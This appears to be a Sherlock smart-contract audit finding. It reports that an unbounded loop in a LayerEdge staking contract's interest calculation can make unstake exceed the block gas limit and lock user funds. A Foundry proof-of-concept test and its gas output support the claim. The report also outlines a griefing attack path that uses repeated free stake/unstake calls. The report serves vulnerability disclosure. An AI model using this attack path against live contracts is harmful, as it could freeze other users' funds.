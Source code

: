 Thankful Chiffon Huskie

High

# Users may not be able to call the unstake function, resulting in a lockup of funds

### Summary

Users may be unable to call the unstake function due to gas exceeding the block limit.
To put it simply, during the process of calling the unstake function, the calculateUnclaimedInterest function is first called to calculate the user's interest. Within the calculateUnclaimedInterest function, there is a loop related to the length of userTierHistory. However, userTierHistory may grow during the stake/unstake processes of other users. Ultimately, this loop may cause the unstake transaction to exceed the block limit.

Regarding the argument of possibility: Due to the mechanism of the protocol, when other users perform stake/unstake operations, the _checkBoundariesAndRecord function is called to update the tier of previous users in real time. After the protocol runs stably, the number of people staking daily might be just a few dozen, with some staking and others unstaking. For those crossaddresses between Tier1 and Tier2, their userTierHistory length will continuously increase due to such stake/unstake activities. If one of these users stakes as a long-term investment and does not perform any operations for a long time (early joined addresses are likely to belong to protocol-related parties, making this more probable), when 21,000 addresses have performed stake/unstake operations (see POC), this user will be unable to unstake their funds.
This possibility is extremely small but still exists, and no one can help this user perform the operation.
There is also the possibility of being attacked by a malicious attacker, but this is extremely unlikely, especially if the crossaddress holds a significant amount of staked funds. Since stake/unstake operations do not charge fees, an attacker could construct a long-term attack on the crossaddress, though it would take a long time due to the waiting period required for unstaking.

This will result in a 100% loss of the user's funds. According to Sherlock's rules: Likelihood is not considered when identifying the severity and the validity of the report. I believe this should be classified as High.

### Root Cause

In the [calculatedUnclaimedInterest](https://github.com/sherlock-audit/2025-05-layeredge/blob/708c5b5345ed50cd0bde7b0a8a548c8936639683/edgen-staking/src/stake/LayerEdgeStaking.sol#L451) function, the loop may exceed the block gas limit, causing the user to be unable to unstake.

### Internal Pre-conditions

none

### External Pre-conditions

1. CrossAddress is not operated for a long time
2. After the protocol runs stably, the crossaddress always remains the same.

### Attack Path

1. User A stakes normally.
2. After the protocol runs stably, other users stake/unstake normally, or malicious attackers stake/unstake.
3. After enough stake/unstake, the user is unable to unstake because the userTierHistory is too long. His funds are locked.

### Impact

Users may not be able to call the unstake function, resulting in the funds being locked. At the same time, the user will not be able to call all other functions, including stake and claimInterest.

### PoC

Because simulating stake/unstake environment requires a lot of gas, you need to add `gas_limit = "18446744073709551615" in the foundry.toml file.

poc: `forge test --mt test_unstake_gas_limit -vvv`
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test} from "forge-std/Test.sol";
import {console2} from "forge-std/console2.sol";
import {LayerEdgeStaking} from "@src/stake/LayerEdgeStaking.sol";
import {LayerEdgeToken} from "@test/mock/LayerEdgeToken.sol";
import {IERC20} from "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import {DeployLayerEdgeStaking} from "@script/DeployLayerEdgeStaking.s.sol";
import {NetworkConfig, HelperConfig} from "@script/HelperConfig.s.sol";
import {OwnableUpgradeable} from "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";

contract LayerEdgeStakingTest is Test {
    LayerEdgeStaking public staking;
    LayerEdgeToken public token;
    HelperConfig public helperConfig;
    DeployLayerEdgeStaking public deployer;

    // Test users
    address public admin;
    address public alice = makeAddr("alice");
    address public bob = makeAddr("bob");
    address public charlie = makeAddr("charlie");
    address public david = makeAddr("david");
    address public eve = makeAddr("eve");
    address public frank = makeAddr("frank");
    address public grace = makeAddr("grace");
    address public harry = makeAddr("harry");
    address public ian = makeAddr("ian");
    address public judy = makeAddr("judy");

    // Constants for testing
    uint256 public constant MIN_STAKE = 3000 * 1e18; // Minimum stake amount
    uint256 public constant LARGE_STAKE = 10000 * 1e18; // Larger stake amount for testing
    uint256 public constant PRECISION = 1e18;
    uint256 public constant INITIAL_SUPPLY = 1_000_000_000 * 1e18; // 1B tokens

    function setUp() public {
        deployer = new DeployLayerEdgeStaking();
        (staking, helperConfig) = deployer.run();

        NetworkConfig memory config = helperConfig.getActiveNetworkConfig();

        token = LayerEdgeToken(config.stakingToken);
        admin = config.owner;
        vm.startPrank(admin);

        // Distribute tokens to users
        uint256 userAmount = 100_000 * 1e18; // 100k tokens per test user
        token.transfer(alice, userAmount);
        token.transfer(bob, userAmount);
        token.transfer(charlie, userAmount);
        token.transfer(david, userAmount);
        token.transfer(eve, userAmount);
        token.transfer(frank, userAmount);
        token.transfer(grace, userAmount);
        token.transfer(harry, userAmount);
        token.transfer(ian, userAmount);
        token.transfer(judy, userAmount);

        // Fund staking contract with reward tokens
        uint256 rewardAmount = 100_000 * 1e18; // 100k tokens for rewards
        token.approve(address(staking), rewardAmount);
        staking.depositRewards(rewardAmount);
        staking.setCompoundingStatus(true);
        staking.setMinStakeAmount(MIN_STAKE);
        vm.stopPrank();
    }

    function test_unstake_gas_limit() public {
        setupMultipleStakers(6);

        uint time = block.timestamp;

        for(uint i = 1; i < 21000; i++) {
            vm.prank(admin);
            token.transfer(address(uint160(i)), MIN_STAKE);
            vm.warp(time += 5);

            vm.startPrank(address(uint160(i)));
            token.approve(address(staking), MIN_STAKE);
            staking.stake(MIN_STAKE);

            vm.warp(time += 5);
            staking.unstake(MIN_STAKE);
            vm.stopPrank();
        }

        uint gasbefore = gasleft();
        vm.prank(charlie);
        staking.unstake(MIN_STAKE);
        console2.log("Gas used for unstaking:", gasbefore - gasleft());
    }

    function setupMultipleStakers(uint256 count) internal {
        address[10] memory stakers = [alice, bob, charlie, david, eve, frank, grace, harry, ian, judy];

        for (uint256 i = 0; i < count && i < stakers.length; i++) {
            vm.startPrank(stakers[i]);
            token.approve(address(staking), MIN_STAKE);
            staking.stake(MIN_STAKE);
            vm.stopPrank();
        }
    }
}
```

```diff
[PASS] test_unstake_gas_limit() (gas: 13319413106)
Logs:
  Gas used for unstaking: 300742935

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.83s (8.83s CPU time)
```
300742935 has already exceeded Ethereum's block gas limit.

### Mitigation

_No response_